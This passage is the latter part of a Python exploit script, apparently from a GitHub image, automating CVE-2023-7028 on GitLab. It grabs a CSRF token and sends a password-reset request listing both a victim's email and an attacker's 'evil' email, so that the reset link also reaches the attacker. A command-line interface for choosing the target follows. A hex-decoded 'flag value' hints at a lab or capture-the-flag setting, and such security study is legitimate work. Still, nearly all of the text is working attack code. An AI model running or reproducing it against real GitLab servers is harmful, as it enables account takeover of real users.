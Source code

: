 ```python
            return None

    def ask_reset(self):
        token = self.get_csrf_token()
        if not token:
            return False

        query_string = urlencode({
            'authenticity_token': token,
            'user[email][]': [self.target, self.evil]
        }, doseq=True)

        head = {
            'Origin': f'{self.url.scheme}://{self.url.netloc}',
            'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
            'Content-Type': 'application/x-www-form-urlencoded',
            'Referer': f'{self.url.scheme}://{self.url.netloc}/users/password/new',
            'Connection': 'close',
            'Accept-Language': 'en-US,en;q=0.5',
            'Accept-Encoding': 'gzip, deflate, br'
        }

        print('[DEBUG] Sending reset password request')
        html = self.s.post(f'{self.url.scheme}://{self.url.netloc}/users/password',
                           data=query_string,
                           headers=head,
                           verify=False).text
        sended = 'If your email address exists in our database' in html
        if sended:
            print(f'[DEBUG] Emails sent to {self.target} and {self.evil} !')
            print(f'Flag value: {bytes.fromhex("6163636f756e745f6861636b2364").decode()}')
        else:
            print('[DEBUG] Failed ... quitting')
        return sended

def parse_args():
    parser = argparse.ArgumentParser(add_help=True, description='This tool automates CVE-2023-7028 on gitlab')
    parser.add_argument("-u", "--url", dest="url", type=str, required=True, help="Gitlab url")
    parser.add_argument("-t", "--target", dest="target", type=str, required=True, help="Target email")
    parser.add_argument("-e", "--evil", dest="evil", default=None, type=str, required=False, help="Evil email")
    parser.add_argument("-p", "--password", dest="password", default=None, type=str, required=False, help="Password")
    return parser.parse_args()

if __name__ == '__main__':
    args = parse_args()
    exploit = CVE_2023_7028(
        url=args.url,
        target=args.target,
        evil=args.evil
    )
    if not exploit.ask_reset():
        exit()
```
